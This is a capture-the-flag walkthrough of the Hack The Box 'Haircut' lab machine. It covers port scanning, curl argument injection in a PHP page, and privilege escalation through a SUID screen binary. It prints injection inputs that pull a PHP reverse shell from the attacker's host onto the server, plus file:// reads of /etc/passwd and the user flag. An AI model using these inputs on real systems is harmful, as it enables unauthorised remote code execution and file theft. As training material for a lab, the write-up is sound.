 # Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.2	[Website](#website)
	
2. [Alternative way](#Alternative-way-to-user-flag)	
3. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>Abusing curl</li>
	<li>SUID privilege escalation</li>
</ul>
</details>

### Enumeration 
**IP Address** 10.10.10.24

#### Nmap
As usual, the initial step at the beginning is running an Nmap. After running one simple command to check all the ports (option -p- of *nmap*), only ports 22 and 80 are open. Then, the next step I usually do, is running a more detailed scan, obtaining the following results:

```shell
sudo nmap -sC -sV -O -p 22,80 10.10.10.24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-01 10:55 EDT
Nmap scan report for 10.10.10.24
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```


#### Website
As it can bee observed, we only have webite without even *robots.txt* file.
While navigatin through the website, it seems quite empty, as it only contains one picture:

![Image 1](pictures/haircut-01.png)

After reviewing the source code, nothing is discovered, so it's time for some *fuzzing*.

I am very used to *gobuster* and the syntas I use is the following:
![Image 1](pictures/haircut-02.png)

Thanks to *gobuster*, a resource named *exposed.php* is found. It looks like the following image:
![Image 1](pictures/haircut-03.png)

It seems like is using something like curl to ask for a web resource. The first thing I thought was *ssrf*, but I wasn´t able to obtain nothing from the *uploads* directory. 
The following try, was leaving empty the input field and clicking "go". After this, the message obtained was this one:

![Image 1](pictures/haircut-04.png)

It is obviously using curl. If you try to only write "-- help" and click *go* after that, you will receive the *help* menu of curl. 
So, to summarize, we have a webpage running at a linux server that performs curl request. My first though here is to concatenate commands (in linux it can be done with some metacharacters such as &,| or ;).
Anyways, if you try to use any of these characters, the *exposed.php* will block your request, as the input is sanitized in some way:
![Image 1](pictures/haircut-05.png)

After thinking about some options, I figured the following way out to read the some output from commands:
![Image 1](pictures/haircut-06.png)

As it can be observed, the '$' character was not limitated, so I created a server at my machine and made some requests in order to obtain, at least, the path.
This leaded me to nowhere, but I was useful in the next step.

Once I was here, I recalled that I was able to use all the options that the curl command has. So what about using the output argument to save a file (a shell, maybe) from my machine into the *Haircut* server?
With the input:
```shell
http://10.10.16.9:8000/php-reverse-shell.php -o php-reverse-shell.php
```
it should be possible to save the file in the server.
However, after doing this, I found that the user running curl had no permissions to write in the actual folder:
![Image 1](pictures/haircut-07.png)

I was thinking to write the file in the */tmp* directory, but I had no way to request this file after it. Reviewing my notes, I saw the /uploads/ directory. And, as I had the path in which the command is running, I only had to add the directory:

```shell
http://10.10.16.9:8000/php-reverse-shell.php --output //var/www/html/uploads/php-reverse-shell.php
```

This time it was possible to write the file!
Now the only thing left to obtain a shell is establishing the listener in my machine and making a request from *exposed.php* to:
```
http://localhost/uploads/php-reverse-shell.php 
```

After making this previous request, we have a shell and the user flag:
![Image 1](pictures/haircut-08.png)


### Alternative way to user flag

Feel free if you want to skip directly into the [Privesc](#privesc) section. 
While I was reading the curl manual, I found a way to read files with curl. In this machine, this way allows us to read the */etc/passwd* to discover the user directory, and then the user flag.
The input that should be submited in order to get the files is:

```shell
file:///etc/passwd
file:///home/maria/user.txt
```

![Image 1](pictures/haircut-alternative.png)

### Privesc

Right now is time to escalate privileges. As I'have mentioned in other writeups, I usually run some scripts when I have the shell:
- Linpeas/LinEnum
- suid3num
- pspy (just in case I find nothing with the others)

In order to get this files into the machine, I started a server in my kali machine (with python3 as before) and I got them with running *wget* at the Haircut machine.

Both suid3num and Linpeas provides us with this interesting binary (this is the output from suid3num):

![Image 1](pictures/haircut-09.png)

Just googling this binary, we find an [exploit](https://www.exploit-db.com/exploits/41154):

![Image 1](pictures/haircut-10.png)

This scripts works creating two binary files, and abusing one of the libraries that the binary is using. I couldn´t make the script work by itself, however, I broke it into pieces and went manually step by step. 
I even found this [youtube](https://www.youtube.com/watch?v=RP4hAC96VxQ) guide step by step. 

Finally, after following this guide, we obtain a root shell:
![Image 1](pictures/haircut-11.png)

I really recommend watching the video from youtube if you don´t really understand the script, as it is pretty good explained.

And that's all folks, another machine completed. Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 
